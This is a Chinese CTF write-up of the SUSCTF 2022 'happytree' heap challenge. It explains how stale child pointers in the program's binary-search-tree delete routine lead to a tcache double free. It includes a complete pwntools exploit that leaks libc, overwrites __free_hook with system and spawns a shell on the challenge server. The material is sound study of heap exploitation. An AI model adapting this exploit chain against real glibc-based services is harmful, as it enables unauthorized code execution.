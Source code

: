 # Susctf2022 Happytree


> 许久未更新了hhh

<!--more-->

本次susctf2022遇到一个很有意思的堆题，比赛的时候愣是看了一个下午没做出来，只好赛后借着官方wp复现一波了。

## 基础check

程序保护全开
```bash
❯ checksec ./happytree
[*] '/home/leo/ctfs/ph0t1n1a/2022/susctf2022/pwn/happytree/happytree'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

libc版本2.27，意味着tcache结构只有next指针，可以double free，unsorted bin attack无防护。

```bash
❯ ./libc.so.6
GNU C Library (Ubuntu GLIBC 2.27-3ubuntu1.2) stable release version 2.27.
Copyright (C) 2018 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 7.5.0.
libc ABIs: UNIQUE IFUNC
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.
```

## 功能

先丢IDA，发现是一个用二叉搜索树来组织堆块的程序。（我tm看了近一小时才看出来）

程序提供三个功能：`insert`/`delete`/`show`，三个函数的参数都是用户输入的size，而不是普通堆题的index之类的。

大致概括就是：

- 每次`insert`操作会创建两个堆块，一个是**固定大小0x30的管理堆块**，一个是**由用户输入大小而确定的不固定大小堆块**。管理堆块中存储用户输入的**大小**，指向内容堆块的**指针**，**左儿子节点**和**右儿子节点**。所有的管理堆块构成一棵**二叉搜索树**，最先创建的管理堆块是树的根节点，bss段的`0x2022a0`地址处存储了根节点的地址。insert中的size参数存在unsigned int8限制，所以我们申请堆块的范围就是`[0, 0xff]`。

  ```bash
  --------------
  |      | 0x31 |
  | ---- | ---- |
  | size | ptr  |
  | ---- | ---- |
  | left | right|
  --------------
  ```

- `delete`操作会寻找到与输入size相同的节点，然后判断其是否含有左右儿子节点：

  - 如果左右儿子节点都存在，则找到右子树中的最左叶子节点，将最左叶子节点记录的size填写到当前节点中，然后去free那个最左叶子节点的两个堆块。
  - 否则，释放改节点对应的堆块，然后返回节点存储的左/右子节点地址（或者0）。

- `show`操作就是找到与输入size相同的节点，然后打印。

## 漏洞点

漏洞点在于，当执行`delete`操作时，对于将要free的节点，程序并没有清空其中可能存在的左右儿子节点指针（即程序中的`a2[2]`/`a2[3]`），当释放然后又分配回来后，就会有两个节点的指向同一个儿子节点，构成double free。

![Untitled](Untitled.png "delete函数")

再加上`[0, 0xff]`的范围已经可以让我们释放chunk进入unsorted bin中，所以泄露Libc也是可行的。

## exp分析

```python
#!/usr/bin/python3
from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

host = '124.71.147.225'
port = 9999
elfpath = 'happytree_patched'
libcpath = 'libc.so.6'
e = ELF(elfpath)
context.binary = e
libc = ELF(libcpath)

context.binary = e

if args.LOCAL:
    p = process([e.path])
    # gdb.attach(p)
else:
    p = remote(host, port)

# io

def s(c): return p.send(c)
def sl(c): return p.sendline(c)
def r(n): return p.recv(n)
def rn(n): return p.recvn(n)
def ru(pattern, drop=False): return p.recvuntil(pattern, drop=drop)
def rl(): return p.recvline()
def ru7f(): return p.recvuntil(b'\x7f')
def su(x): return p.success(x)
def shell(): return p.interactive()

# utilities

def leak(func, address): return p.success(
    "{} ==> {}".format(func, hex(address)))

def command(c):
    ru(b'cmd> ')
    sl(str(c).encode())

def insert(size, content=b'a'):
    command(1)
    ru(b'data: ')
    sl(str(size).encode())
    ru(b'content: ')
    s(content)

def delete(size):
    command(2)
    ru(b'data: ')
    sl(str(size).encode())

def show(size):
    command(3)
    sl(str(size).encode())
    # ru(b'content: ')

# start pwning
insert(1)
insert(2)
insert(8, b'/bin/sh\x00')

# use unsorted bin to leak libc
for i in range(8):
    insert(0xd0 + i)
for i in range(8):
    delete(0xd7 - i)
# 1 -> 2 -> 8

for i in range(7):
    insert(0xd0 + i)
insert(0xd7, b'a'*8)
show(0xd7)

leakaddr = u64(ru7f()[-6:].ljust(8, b'\x00'))
libc_base = leakaddr - (0x7f8246ba2ca0 - 0x7f82467b7000)
leak("libc base", libc_base)
libc.address = libc_base
free_hook = libc.sym['__free_hook']
system = libc.sym['system']

# double free
insert(0xf2)
insert(0xf7)
insert(0xf6)
insert(0xf4)
insert(0xf5)
insert(0xf0)
insert(0xf1)

# 构造double free
delete(0xf2)
insert(0xf8)
delete(0xf5)
delete(0xf8)
delete(0xf7)

# 填充两个正常的0x30 tcache bin
delete(1)
delete(2)

# 利用构造好的tcache[0x100]中的double free来修改free_hook
insert(0xef, p64(free_hook))
insert(0xee, p64(0))
insert(0xed, p64(0))
gdb.attach(p)
insert(0xec, p64(system))
delete(8)

shell()
```

利用unsorted bin泄露libc之后，二叉树的部分如下图所示。接着的`delete(0xf2)`操作实际上删除的是`0xf4`大小的节点，并将`0xf2`节点记录的size改写为`0xf4`。

![Untitled](Untitled%201.png "流程1")

所以，紧接着的`insert(0xf8)`会得到一个残留有`0xf5`节点指针的节点，而因为之前的`delete(0xf2)`操作，`0xf6`同样会指向`0xf5`节点。

![Untitled](Untitled%202.png "流程2")

然后`delete(0xf5)`会搜索到`0xf6`左子树中的`0xf5`节点，然后删除其对应的堆块。此时的树与tcache的情况如图所示。

![Untitled](Untitled%203.png "流程3")

接着`delete(0xf8)`将`0xf5`移动到`0xf7`的右子树。

![Untitled](Untitled%204.png "流程4")

因为`0xf7`节点的左右叶子节点均存在，所以`delete(0xf7)`操作又会搜索到`0xf5`节点然后再次将其删除。此时，tcache中已经产生了double free。

![Untitled](Untitled%205.png "流程5")

![Untitled](Untitled%206.png "调试验证")

接下来就是常规的tcache double free应用，最终改free_hook然后getshell。

## 总结

第一次碰到这种结合数据结构来出的堆题，洞藏得挺隐蔽的（不是，其实有经验的话一眼就能看出来），而且创建和释放堆块的操作还需要选手去复习一波二叉搜索树的性质，所以总体来说是一道非常有趣的题，特此记录一下。
